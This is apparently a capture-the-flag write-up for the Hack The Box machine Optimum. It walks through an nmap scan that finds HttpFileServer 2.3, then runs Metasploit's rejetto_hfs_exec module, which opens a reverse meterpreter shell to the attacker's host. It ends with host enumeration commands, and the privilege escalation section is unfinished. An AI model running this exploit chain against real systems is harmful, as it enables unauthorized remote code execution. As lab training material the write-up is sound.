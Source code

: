 ## Write up

I started with the nmap scan to see the open ports.

```
nmap -sV -sC -oA nmap 10.10.10.8
```

Generated 3 nmap output files and opened the nmap.nmap file.

This is the content of the nmap.nmap file

`# Nmap 7.50 scan initiated Mon Jul 10 21:13:26 2017 as: nmap -sV -sC -oA nmap 10.10.10.8`

`Nmap scan report for 10.10.10.8`

`Host is up (0.55s latency).`

`Not shown: 999 filtered ports`

`PORT   STATE SERVICE VERSION`

`80/tcp open  http    HttpFileServer httpd 2.3`

`|_http-server-header: HFS 2.3`

`|_http-title: HFS /`

`Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows`

`Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .`

`# Nmap done at Mon Jul 10 21:14:33 2017 -- 1 IP address (1 host up) scanned in 67.96 seconds`

The port 80 is open and it uses HttpFileServer httpd 2.3. I opened the msfconsole \(metasploit\) to search and see the available exploits for the current version of HttpFileServer \(HFS\). I used the search command as shown below.

```
msf > search hfs
```

And it shows the matching modules.

```
Matching Modules
================

   Name                                        Disclosure Date  Rank       Description
   ----                                        ---------------  ----       -----------
   exploit/multi/http/git_client_command_exec  2014-12-18       excellent  Malicious Git and Mercurial HTTP Server For CVE-2014-9390
   exploit/windows/http/rejetto_hfs_exec       2014-09-11       excellent  Rejetto HttpFileServer Remote Command Execution
```

Here, we can see already the available exploit for the HttpFileServer \(HFS\).

I used the `exploit/windows/http/rejetto_hfs_exec`as the exploit.

```
msf > use exploit/windows/http/rejetto_hfs_exec
```

Setting the RHOST to the IP address of the Optimum and running the exploit.

```
msf exploit(rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                       yes       The target address
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(rejetto_hfs_exec) > set RHOST 10.10.10.8
RHOST => 10.10.10.8
msf exploit(rejetto_hfs_exec) > 
msf exploit(rejetto_hfs_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.9:4444 
[*] Using URL: http://0.0.0.0:8080/IrcKe8v9
[*] Local IP: http://10.0.0.69:8080/IrcKe8v9
[*] Server started.
[*] Sending a malicious request to /
...
```

After running the exploit, I am able to access the shell with meterpreter.

### **Enumeration and finding the user.txt**

Commands that I used to enumerate.

```
meterpreter> sysinfo #to see the information of the system

meterpreter> shell #to access the shell and find the user.txt which is located on C:\Users\kostas\Desktop

wmic qfe get Caption,Description,HotFixID,InstalledOn #to see the security updates of the OS
```

### Privilege Escalation

\(WIP\)

